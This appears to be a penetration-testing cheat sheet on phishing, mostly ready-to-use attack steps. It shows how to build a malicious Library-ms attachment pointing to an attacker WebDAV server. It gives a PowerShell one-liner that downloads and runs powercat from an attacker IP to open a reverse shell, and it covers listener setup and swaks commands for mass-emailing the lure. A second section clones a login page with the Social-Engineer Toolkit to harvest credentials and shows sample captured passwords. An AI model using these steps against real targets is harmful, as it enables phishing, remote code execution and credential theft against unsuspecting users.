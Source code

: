 # Phising

## Attachment

{% tabs %}
{% tab title="1. Malicious File" %}
Create a malicious attachment (`config.Library-ms`) and include the attacker host's IP address within the `<url>` tags (line 15):

{% hint style="warning" %}
Create the attachment on a Windows host!

* `Library-ms` is a Windows-specific file format, and it must follow a specific XML structure with Windows metadata.&#x20;
* If it is created it on Linux, even with the same contents, it might not be recognized or executed properly by Windows.
{% endhint %}

{% code title="config.Library-ms" overflow="wrap" lineNumbers="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://172.16.42.42</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}
{% endtab %}

{% tab title="2. Shortcut" %}
Create a malicious PowerShell shortcut pointing first to an attacker-controlled HTTP server and then to an attacker-controlled listener:

{% code overflow="wrap" %}
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_IP>:8000/powercat.ps1');powercat -c <attacker_IP> -p 4444 -e powershell"
```
{% endcode %}
{% endtab %}

{% tab title="3. Transfer & Setup" %}
Transfer both files to the attacking host under `/webdav` and start the server from within that directory:

```bash
# List the directory's contents 
$ ls
config.Library-ms  powershell.lnk

# Start the WEBDAV server
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```

Start the HTTP server and the listener:

```bash
# List the directory's contents 
$ ls
powercat.ps1

# Start the HTTP server
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
# Start the listener
$ sudo nc -lnvp 4444
```
{% endtab %}

{% tab title="4. Email" %}
Send the phising email along with the malicious attachment:

{% code overflow="wrap" %}
```bash
# Send the phising email to jim
$ swaks --to target@example.com --from compromized-email@example.com --header "Subject: Important!!!" --body @body.txt --attach @config.Library-ms --server 192.168.X.189 --auth LOGIN --auth-user compromized-email@example.com --auth-password 'Pass123!'

# Multiple targets
$ swaks --to $(cat emails.txt | tr '\n' ',') --from compromized-email@example.com --header "Subject: Important!!!" --body @body.txt --attach @config.Library-ms --server 192.168.X.189 --auth LOGIN --auth-user compromized-email@example.com --auth-password 'Pass123!'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Site Clone

{% hint style="warning" %}
The below process can be often simplified by just sending the phishing email(s) and launching a `nc` listener!
{% endhint %}

<details>

<summary>Example HTML code for a login page which can be hosted on Apache2 for <code>set</code> to clone:</summary>

{% code title="login.html" overflow="wrap" %}
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Simple Login</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      background: #f2f2f2;
      display: flex;
      height: 100vh;
      justify-content: center;
      align-items: center;
    }
    .login-container {
      background: white;
      padding: 20px 30px;
      border-radius: 6px;
      box-shadow: 0 2px 6px rgba(0,0,0,0.2);
      width: 300px;
    }
    h2 {
      margin-bottom: 20px;
      text-align: center;
    }
    label {
      display: block;
      margin-top: 10px;
      margin-bottom: 5px;
      font-weight: bold;
    }
    input[type="text"],
    input[type="password"] {
      width: 100%;
      padding: 8px;
      border-radius: 4px;
      border: 1px solid #ccc;
      box-sizing: border-box;
    }
    button {
      width: 100%;
      padding: 10px;
      margin-top: 15px;
      background-color: #4CAF50;
      color: white;
      border: none;
      border-radius: 4px;
      font-size: 16px;
      cursor: pointer;
    }
    button:hover {
      background-color: #45a049;
    }
  </style>
</head>
<body>
  <div class="login-container">
    <h2>Login</h2>
    <form action="/login" method="POST">
      <label for="username">Username</label>
      <input type="text" id="username" name="username" required />

      <label for="password">Password</label>
      <input type="password" id="password" name="password" required />

      <button type="submit">Login</button>
    </form>
  </div>
</body>
</html>
```
{% endcode %}

</details>

The [Social Engineering Toolkit](https://github.com/trustedsec/social-engineer-toolkit) can be used to automate the process:

{% tabs %}
{% tab title="1. seautomate" %}
We can manually run `setoolkit` and select the options _Social-Engineering Attacks_ → _Website Attack Vectors_ > _Credential Harvester Attack_ > _Site Cloner_.&#x20;

We can also the above choices and required input using `seautomate`:

{% code overflow="wrap" %}
```bash
$ cat set_commands.txt
1
2
3
2
10.10.14.15
https://example.com/login.aspx

$ sudo ./seautomate set_commands.txt
...
[*] Cloning the website: https://example.com/login.aspx
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```
{% endcode %}
{% endtab %}

{% tab title="2. Email" %}
We can then send our phising email:

{% code overflow="wrap" %}
```bash
swaks --to sales@domain.com --from it@domain.com --server 10.13.14.15 --port 25 --body @email_body.txt
```
{% endcode %}
{% endtab %}

{% tab title="3. Creds" %}
```bash
$ sudo ./seautomate set_commands.txt
...
[*] Information will be displayed to you as it arrives below:
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: LoginType=Explicit
POSSIBLE USERNAME FIELD FOUND: user=username123
POSSIBLE PASSWORD FIELD FOUND: password=Password123!
PARAM: domain=LAB.LOCAL
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```
{% endtab %}
{% endtabs %}
